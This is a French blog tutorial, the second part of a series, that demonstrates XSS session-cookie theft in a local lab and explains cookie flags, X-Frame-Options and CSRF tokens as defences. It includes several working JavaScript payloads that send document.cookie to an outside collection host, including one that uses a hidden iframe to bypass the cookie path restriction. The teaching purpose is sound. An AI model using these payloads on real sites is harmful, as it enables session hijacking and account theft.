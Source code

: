 ```yaml
---
layout: post
title:  "XSS, CORS, CSRF (Partie 2)"
date:   2016-08-15
categories: web
---
```

XSS  et vol de cookies par la pratique.
----------

**Vous reprendrez bien un cookie ?**
  
Dans le [premier volet]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga, nous traitions des attaques XSS et des moyens de s’en prémunir. Ces vulnérabilités peuvent être utilisées pour voler vos informations de session ou vous rediriger vers un site frauduleux. Vous vous dîtes sûrement : "ok coco en théorie c’est bien sympa tout ça, mais en quoi consiste le vol d’une session, quelles informations sont envoyées et où part la requête ?".  
  
Imaginons la configuration suivante :
  
![Configuration de l'attaque]({{ site.url }}/public/images/xss-cors-csrf/cors_1.png)
  
Un internaute requête le site *www.site-a.com* qui est un site de confiance mais vulnérable au XSS. Un pirate pourra injecter le code suivant :  

```html
Juste un petit coucou !
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(document.cookie));
	xhr.send();
</script>
```
  
Pour notre test nous partirons sur le postulat que *www.site-a.com* est notre *localhost*, et que *www.site-b.com* (le site du pirate qui récupère les infos) correspond au site *http://requestb.in*.  

> Le site **http://requestb.in** est très utile pour analyser les requêtes HTTP.  

Lorsque le script est exécuté, ce dernier accède au **document.cookie** qui correspond au cookie du document HTML courant contenant l’id de session. Ce dernier peut ressembler à ceci :  

![Exemple cookie 1]({{ site.url }}/public/images/xss-cors-csrf/cors_2.png)  
Ou bien ceci :  

![Exemple cookie 2]({{ site.url }}/public/images/xss-cors-csrf/cors_3.png)  
Nous reviendrons sur ce dernier cas par la suite car ce dernier est un cookie sécurisé. Je vous recommande sous Chrome d’installer l’extension [Cookie Inspector]( https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn).  
  
Pour nos tests voici la configuration mise en place :  

 - Une page *http://localhost/secu/cookie.php*:  

```php
<?php
	setcookie('PHPSESSID_secure', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], isset($_SERVER["HTTPS"]), true);
	setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/', $_SERVER['SERVER_NAME'], false, false);
?>
```  
> Vous ne pouvez pas définir de cookie pour un autre domaine.  

Les cookies générés (deux cookies à des fins de test):  
![Configuration cookies test]({{ site.url }}/public/images/xss-cors-csrf/cors_4.png)  
Les champs [Domain, Path, HTTP et Secure](https://tools.ietf.org/html/rfc6265) sont les champs qui permettront de sécuriser notre cookie:  

**domain** : le domaine racine concerné par le cookie  
**path** : détermine pour quelle arborescence à partir du domaine racine le cookie sera accessible  
**session.cookie_httponly** : empêche un cookie d’être accessible via javascript (XSS ;))  
**session.cookie_secure** : accède au cookie uniquement sur des connexions HTTPS (empêche les informations de transiter en clair – voir également la solution [HSTS](https://developer.mozilla.org/fr/docs/S%C3%A9curit%C3%A9/HTTP_Strict_Transport_Security))    
  
 - Une page vulnérable *http://localhost/xss.php* qui contient le payload vu précédemment.  
  
Ce cookie est envoyé via une requête **XMLHttpRequest** sur *requestb.in*. Regardons quelles informations sont réceptionnées :  
![Requestb.in get data]({{ site.url }}/public/images/xss-cors-csrf/cors_5.png)
  
Nous récupérons bien l’id de session de notre cookie non sécurisé uniquement. Ceci a été possible car :  

  -	Faille **XSS** ayant permis l’injection de javascript
  -	Cookie avec le flag **HttpOnly** à false
  -	Requête **Cross-Origin** simple sur le site du pirate pour récupération des informations
  -	Cookie avec un **Path** permissif (toute l’arborescence du site)  
  
Il convient de définir un path pour lequel le cookie doit être actif, dans notre exemple un espace sécurisé */secu* qui sollicite le cookie session. Ainsi notre page publique vulnérable *xss.php* à la racine */* n’aurait pas été en mesure d’accéder au cookie. Modifions le path de notre cookie unsecured :  
  
```php
setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], false, false);
```
  
Et si maintenant nous tentions dans notre payload (depuis la page *http://localhost/xss.php*) d’accéder à la page *http://localhost/secu/cookie.php*, de lui voler son cookie et de nous l’envoyer :  
  
```html
<script>    
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {

		if (xhr.readyState == 4) {
			var cookie = xhr.getResponseHeader('Set-Cookie');   
				
			var xhr2 = new XMLHttpRequest();
			xhr2.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie), false);
			xhr2.send();
		}
	}	
	xhr.open('GET', 'http://localhost/secu/cookie.php');
	xhr.send();		  
</script>
```
  
Malheureusement nous obtenons : <span style="color: red">```Refused to get unsafe header "Set-Cookie"```</span>.  
  
La spécification **XMLHttpRequest** interdit l’accès à certains response headers pour des raisons de sécurité. Les navigateurs chrome / firefox / IE retourneront donc null ([https://fetch.spec.whatwg.org/#forbidden-header-name]( https://fetch.spec.whatwg.org/#forbidden-header-name)).  
  
<a name="iframe"></a>N’y-a-t-il pas une autre méthode que notre XHR pour charger cookie.php?  
  
```html
<script>    
	var iframe = document.createElement("iframe");
	iframe.src = "http://localhost/secu/cookie.php";
	iframe.hidden = true;            
	var iframeObj = document.body.appendChild(iframe);

	iframeObj.onload = function(){            
		var cookie = iframeObj.contentDocument.cookie;
		var xhr = new XMLHttpRequest();
		xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie));
		xhr.send();
	};          	  
</script>
```  
  
Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.  
  
> *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*  

<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/w7iy5sw7?cookie=PHPSESSID_unsecured=jm5mah0a9uuf4g344096nled73.  
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access.
</pre>  
  
> *"Nous requêtons depuis une ressource du domaine http://localhost:80 vers le domaine http://requestb.in:80, et nous avons ce message, comment se fait-il que la requête ait abouti ?"*  
  
Et bien je vous remercie d’avoir posé la question :). Nous sommes typiquement dans le cas d’une requête Cross Origin. Aujourd'hui AJAX  est omniprésent dans les développements de par l'essor des frameworks client riches comme AngularJS. Je réserve le détail du **Cross-Origin Resource Sharing** pour le dernier volet de cette saga. La connaissance du CORS est essentielle pour les développeurs WEB.  
  
Imaginez que vous surfiez sur un site frauduleux qui puisse soumettre à votre insu des requêtes sur un de vos sites préférés en incluant vos informations de session et poster des formulaires à votre place... C’est à ce niveau qu’il est essentiel de bien configurer le Cross-Origin Resource Sharing et de définir un **token de sécurité** pour éviter les attaques **Cross-Site Request Forgery**. Ceci nous montre bien que les vecteurs d'attaques sont multiples.  
  
A très bientôt.  
  
### [PARTIE 3](https://phackt.com/xss-cors-csrf-partie-3-cors-csrf)
<br />
Références:  
[http://php.net/manual/fr/session.security.php](http://php.net/manual/fr/session.security.php)  
[https://geekflare.com/httponly-secure-cookie-apache/](https://geekflare.com/httponly-secure-cookie-apache/)  
[https://fetch.spec.whatwg.org/](https://fetch.spec.whatwg.org/)  
[https://geekflare.com/secure-cookie-flag-in-tomcat/](https://geekflare.com/secure-cookie-flag-in-tomcat/)
